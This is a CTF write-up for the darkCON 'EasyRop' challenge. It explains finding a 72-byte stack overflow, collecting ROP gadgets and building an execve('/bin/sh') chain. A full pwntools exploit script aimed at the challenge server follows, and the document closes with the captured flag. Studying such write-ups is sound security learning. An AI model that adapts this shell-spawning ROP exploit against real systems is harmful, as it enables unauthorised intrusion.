


# EasyRop - Writeup

<br>

## Recon
We are given a binary that takes user input and then exits:
`
Welcome to the darkcon pwn!!
Let us know your name:lightstack
`

Using `file` I learned, that we were working with a 64bit binary that was dynamically linked and (using checksec) had PIE (so ASLR) disabled.
When inputting a lot of A's, we get a segmentation fault, that means we have a buffer overflow.

By inputting a pattern generated by pythons pwntools cyclic generator, I found out, that the padding (so the memory space reserved for the input on the stack) was 72bytes.

The next 8bytes are the return pointer that will be POPped.

Now I thought about my objective:
Getting a shell

What do we have to do so:
	1.Write "/bin/sh" somewhere in memory
	2.make a syscall or call system with the first parameter being the 
	  location of the string, and the two next parameters being just anything 

The challenge is called EasyROP, so let's look for some fitting ROP gadgets.
I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) and came up with the following list of gadgets I would need:

\[+] Gadget found: 0x4012d3 syscall 							; making the syscall
\[+] Gadget found: 0x481e65 mov qword ptr \[rsi], rax ; ret 	; writing memory 
\[+] Gadget found: 0x40f4be pop rsi ; ret 					; controlling the rsi register
\[+] Gadget found: 0x4175eb pop rax ; ret 					; controlling rax
\[+] Gadget found: 0x40191a pop rdi ; ret 					; ...
\[+] Gadget found: 0x40f4be pop rsi ; ret 
\[+] Gadget found: 0x40181f pop rdx ; ret


## The Plan

pop writable location into rsi >> 
pop "/bin/sh" into rax >> 
call write gadget >> 
pop writable +8 into rsi >> 
pop (anything) into rax >> 
call writegadget >> 
pop /bin/sh location into rdi (the first syscall parameter) >> 
pop the junk data location into rsi and rdx (2. and 3. argument) >>
pop 0x3b into rax (=(dec)59; syscall number for execve) >> 
make syscall

--------------------------------

I am using python pwntools for writing the exploit:

```py
#!/usr/bin/env python3
from pwn import *

def main():
	#io = process("./easy-rop") # For debugging
	io = remote("65.1.92.179",49153)
	pre_data = io.recvuntil("your name:")
	
	payload = b"A"*72 # padding

	#Writing /bin/sh
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0) 	# Value for rsi, rw in .data
	payload += p64(0x4175eb)	# pop rax gadget
	payload += b"/bin//sh"		# value for rax that will be written into loc of rsi, we use 2*/ for getting to 8 byte, not seven
	payload += p64(0x481e65)	# mov [rsi], rax gadget for writing string
	
	#Writing null byte into .data+0x8	
	payload += p64(0x40f4be)    # pop rsi gadget 
	payload += p64(0x004c00e0+0x8)# Value for rsi, rw in .data+0x8 so the next argument for execve
	payload += p64(0x4175eb)    # pop rax gadget
	payload += p64(0x0)       	# value for rax, so 0x0 for the array as arguments
	payload += p64(0x481e65)    # mov [rsi], rax gadget for writing string
	
		
	#Preparing syscall
	payload += p64(0x40191a)	# pop rdi gadget
	payload += p64(0x004c00e0)	# value for rdi (location of string = rsi)
	payload += p64(0x40181f)	# pop rdx gadget
	payload += p64(0x004c00e0+0x8)# Value for rdx
	payload += p64(0x4175eb)	# pop rax gadget
	payload += p64(0x3b)		# rax value = (dec) 59 = execve syscall number
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0+0x8) 	# value for rsi 
	
	#Make syscall
	payload += p64(0x4012d3) 	# syscall gadget	
	

	input("Send payload")
	io.sendline(payload)
	io.interactive()
	
	io.close()

if __name__=="__main__":
	main()

```


When executing it we get the following output:


Well done! 
We got the flag `darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}` !
